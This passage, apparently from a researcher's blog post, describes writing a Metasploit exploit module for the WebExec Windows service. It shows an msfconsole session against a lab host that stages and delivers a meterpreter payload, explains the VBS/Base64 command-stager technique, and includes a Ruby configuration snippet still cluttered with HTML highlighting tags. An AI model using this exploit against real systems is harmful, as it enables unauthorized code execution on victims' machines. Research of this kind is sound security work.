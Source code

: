 And the exploit module:

```
msf5 > use exploit/windows/smb/webexec
msf5 exploit(windows/smb/webexec) > set SMBUser testuser
SMBUser => testuser
msf5 exploit(windows/smb/webexec) > set SMBPass testuser
SMBPass => testuser
msf5 exploit(windows/smb/webexec) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf5 exploit(windows/smb/webexec) > set RHOSTS 192.168.56.101
RHOSTS => 192.168.56.101
msf5 exploit(windows/smb/webexec) > exploit

[*] 192.168.56.101:445 - Connecting to the server...
[*] 192.168.56.101:445 - Authenticating to 192.168.56.101:445 as user 'testuser'...
[*] 192.168.56.101:445 - Command Stager progress -   0.96% done (999/104435 bytes)
[*] 192.168.56.101:445 - Command Stager progress -   1.91% done (1998/104435 bytes)
...
[*] 192.168.56.101:445 - Command Stager progress -  98.52% done (102891/104435 bytes)
[*] 192.168.56.101:445 - Command Stager progress -  99.47% done (103880/104435 bytes)
[*] 192.168.56.101:445 - Command Stager progress - 100.00% done (104435/104435 bytes)
[*] Started bind TCP handler against 192.168.56.101:4444
[*] Sending stage (179779 bytes) to 192.168.56.101
```

The actual implementation is mostly straight forward if you look at the code linked above, but I wanted to specifically call out the exploit module, since it had an interesting problem: how do you initially get a meterpreter .exe uploaded to execute it?

I started by using a psexec-like exploit where we upload the .exe file to a writable share, then execute it via WebExec. That proved problematic, because uploading to a share frequently requires administrator privileges, and at that point you could simply use <tt>psexec</tt> instead. You lose the magic of WebExec!

After some discussion with [Egyp7](https://twitter.com/egyp7), I realized I could use the <tt>Msf::Exploit::CmdStager</tt> mixin to stage the command to an .exe file to the filesystem. Using the .vbs flavor of staging, it would write a Base64-encoded file to the disk, then a .vbs stub to decode and execute it!

There are several problems, however:

- The max line length is ~1200 characters, whereas the <tt>CmdStager</tt> mixin uses ~2000 characters per line
- <tt>CmdStager</tt> uses <tt>%TEMP%</tt> as a temporary directory, but our exploit doesn't expand paths
- <tt>WebExecService</tt> seems to escape quotation marks with a backslash, and I'm not sure how to turn that off

The first two issues could be simply worked around by adding options (once I'd figured out the options to use):

```
wexec(<span class="Boolean">true</span>) <span class="Statement">do</span> |opts|
  opts[<span class="rubySymbol">:</span><span class="rubySymbol">flavor</span>] = <span class="rubySymbol">:</span><span class="rubySymbol">vbs</span>
  opts[<span class="rubySymbol">:</span><span class="rubySymbol">linemax</span>] = datastore[<span class="rubyStringDelimiter">"</span><span class="String">MAX_LINE_LENGTH</span><span class="rubyStringDelimiter">"</span>]
  opts[<span class="rubySymbol">:</span><span class="rubySymbol">temp</span>] = datastore[<span class="rubyStringDelimiter">"</span><span class="String">TMPDIR</span><span class="rubyStringDelimiter">"</span>]
  opts[<span class="rubySymbol">:</span><span class="rubySymbol">delay</span>] = <span class="Float">0.05</span>
  execute_cmdstager(opts)
<span class="Statement">end</span>
```
